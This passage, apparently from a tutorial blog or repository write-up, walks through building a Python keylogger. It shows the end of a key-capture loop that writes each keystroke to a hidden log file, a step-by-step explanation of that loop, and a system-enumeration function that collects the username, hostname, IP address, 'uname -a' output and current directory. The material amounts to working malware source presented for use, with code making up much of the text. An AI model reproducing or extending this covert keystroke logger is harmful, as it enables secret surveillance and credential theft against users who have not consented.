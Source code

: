 ```py
            except BlockingIOError:
                pass
        time.sleep(0.01)
except KeyboardInterrupt:
    exit("\n")
```
The logic is as follows:
1. We use the `while TRUE` loop in order to continuously listen for incoming key presses.
2. We try to read one character (event) at a time.
3. If the event type is classified as being a key, and the key is being pressed (not released), then we get `key_char` using the function `get_shifted_character()`, which returns the exact character, respecting upper/lower case and returning special keys like `[BACKSPACE]` separately.
4. `MODIFIERS` is a list of keys (such as `[L_SHIFT]`, `[R_SHIFT]`,...). If the `event.code` is not in this list, then we are interested in the corresponding character and want to print it to the output.
5. The function `open(log_file, "a")` opens the log file and appends any argument, which is given by `log_entry` in this case.
6. `BlockingIOError` handles any errors if there is no data to be read. We simply ignore this.
7. As a precaution we include a short delay between checks to reduce CPU usage using `time.sleep(0.01)`
8. Finally, we exit the loop gracefully in `except KeyboardInterrupt` using `Ctrl + c`.

Now we can successfully write key strokes to the hidden text file, so we reached our goal. However, I thought it might be worthwile to go a bit further and do some basic enumeration, while we're at it. For instance, it might be nice to gain an understanding of the system that the logger is running on in the first place. I used the following snippet to get things like username, machine name, IP address etc.
```py
def get_system_info():
    info = {}
    try:
        info['username'] = getpass.getuser()
    except:
        info['username'] = 'unknown'
    try:
        info['hostname'] = socket.gethostname()
    except:
        info['hostname'] = 'unknown'
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
        s.connect(("8.8.8.8", 80))
        info['ip_address'] = s.getsockname()[0]
        s.close()
    except:
        info['ip_address'] = 'unknown'
    try:
        result = subprocess.run(['uname', '-a'], capture_output=True, text=True)
        info['os_info'] = result.stdout.strip() if result.returncode == 0 else 'unknown'
    except:
        info['os_info'] = 'unknown'
    try:
        info['current_dir'] = subprocess.run(['pwd'], capture_output=True, text=True).stdout.strip()
    except:
        info['current_dir'] = 'unknown'    
    info['startup_time'] = datetime.now().strftime("%Y-%m-%d %H:%M:%S")
    return info
```
This snippet requires some additional libraries, but mostly the code is self-explanatory. Essentially, we run shell commands like `uname -a` and `pwd` in the background and save the respective outputs to a variable. Of course this information is only saved to the log file upon execution of the logger, not after every key stroke.
